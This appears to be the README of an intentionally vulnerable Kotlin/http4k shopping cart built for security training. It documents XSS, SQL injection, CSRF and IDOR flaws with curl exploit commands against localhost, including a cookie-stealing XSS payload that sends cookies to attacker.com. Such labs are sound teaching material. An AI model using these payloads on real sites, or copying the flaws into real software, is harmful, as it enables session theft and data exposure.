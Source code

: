 # Vulnerable Kotlin Shopping Cart (http4k)

⚠️ **WARNING**: This application contains intentional security vulnerabilities for educational and testing purposes. **DO NOT** use this code in production environments!

## Overview

This is a deliberately vulnerable web application built with Kotlin, http4k, and jsoup. It demonstrates common web application security vulnerabilities including XSS, SQL Injection, CSRF, and IDOR.

## Features

- Shopping cart functionality with product listing
- Multiple intentional security vulnerabilities
- HTTP4K-based REST API
- Jsoup HTML parsing for cart widget extraction
- Simple, minimal codebase for easy understanding

## Requirements

- Java 17 or higher
- Gradle (wrapper included)

## Building and Running

### Build the project:
```bash
./gradlew build
```

### Run the application:
```bash
./gradlew run
```

The server will start on http://localhost:9000

### Run tests:
```bash
./gradlew test
```

## Vulnerabilities and Exploits

### 1. Reflected XSS (Cross-Site Scripting)

**Location:** `/greet` endpoint

**Description:** User input is reflected in the HTML response without any sanitization or encoding.

**Exploit with CURL:**
```bash
# Basic XSS test
curl "http://localhost:9000/greet?name=<script>alert('XSS')</script>"

# Cookie stealing XSS
curl "http://localhost:9000/greet?name=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>"

# DOM manipulation
curl "http://localhost:9000/greet?name=<img src=x onerror=alert('XSS')>"
```

**Expected Result:** The malicious script tags are embedded directly in the HTML response without escaping.

---

### 2. SQL Injection

**Location:** `/search` endpoint

**Description:** Search query is concatenated into a SQL query without parameterization, executed directly against an H2 in-memory database.

**Exploit with CURL:**
```bash
# Basic SQL injection to retrieve all products
curl "http://localhost:9000/search?q=%27%20OR%20%271%27=%271"

# Alternative payload
curl "http://localhost:9000/search?q=%27%20OR%201=1%20--"
```

**Expected Result:** Returns all products instead of just matching ones, demonstrating successful SQL injection attack against a real database.

---

### 3. CSRF (Cross-Site Request Forgery)

**Location:** `/cart/add` endpoint

**Description:** State-changing operations can be performed without CSRF token validation.

**Exploit with CURL:**
```bash
# Add items to any user's cart without authentication
curl -X POST "http://localhost:9000/cart/add?user=victim&product=1"
curl -X POST "http://localhost:9000/cart/add?user=victim&product=2"

# Verify items were added
curl "http://localhost:9000/cart?user=victim"
```

**Expected Result:** Items are added to the cart without any CSRF protection.

---

### 4. IDOR (Insecure Direct Object Reference)

**Location:** `/cart` endpoint

**Description:** Any user can view any other user's cart by manipulating the user parameter.

**Exploit with CURL:**
```bash
# First, add items to different users' carts
curl -X POST "http://localhost:9000/cart/add?user=alice&product=1"
curl -X POST "http://localhost:9000/cart/add?user=bob&product=2"
curl -X POST "http://localhost:9000/cart/add?user=admin&product=3"

# Now access other users' carts without authentication
curl "http://localhost:9000/cart?user=alice"
curl "http://localhost:9000/cart?user=bob"
curl "http://localhost:9000/cart?user=admin"
```

**Expected Result:** Can view any user's cart without authentication or authorization checks.

---

## Shopping Cart Widget Client

The `DemoShoppingCartClient` class demonstrates using http4k and jsoup to fetch and parse HTML widgets:

```kotlin
val client = DemoShoppingCartClient(httpHandler)
val cartWidget = client.fetchCartWidget()
```

This fetches the `/header-widget` endpoint and extracts the cart icon HTML using CSS selector `div.cart-icon-link`.

## API Endpoints

| Method | Path | Description |
|--------|------|-------------|
| GET | `/` | Home page with product list and test links |
| GET | `/greet?name=<name>` | Vulnerable XSS endpoint |
| GET | `/search?q=<query>` | Vulnerable search with SQL injection |
| POST | `/cart/add?user=<user>&product=<id>` | Add item to cart (CSRF vulnerable) |
| GET | `/cart?user=<user>` | View cart (IDOR vulnerable) |
| GET | `/header-widget` | Cart widget HTML fragment |

## Project Structure

```
kotlin-http4k-fn/
├── build.gradle.kts                    # Gradle build configuration
├── settings.gradle.kts                 # Gradle settings
├── src/
│   ├── main/
│   │   └── kotlin/
│   │       └── com/example/demo/
│   │           ├── Main.kt             # Main application with vulnerable endpoints
│   │           └── external/cart/
│   │               └── DemoShoppingCartClient.kt  # Widget client with jsoup
│   └── test/
│       └── kotlin/
│           └── com/example/demo/
│               └── VulnerableShoppingCartAppTest.kt  # Tests
└── README.md
```

## Dependencies

- **http4k-core**: Lightweight HTTP toolkit for Kotlin
- **http4k-server-netty**: Netty server backend
- **jsoup**: HTML parser for widget extraction
- **h2**: Lightweight in-memory SQL database

## Security Notes

This application is designed for:
- Security testing and training
- Demonstrating common vulnerabilities
- Testing security scanning tools
- Educational purposes

**Do NOT:**
- Deploy to production
- Expose to the internet
- Use as a template for real applications
- Store real user data

## License

This is a demonstration project for security testing purposes.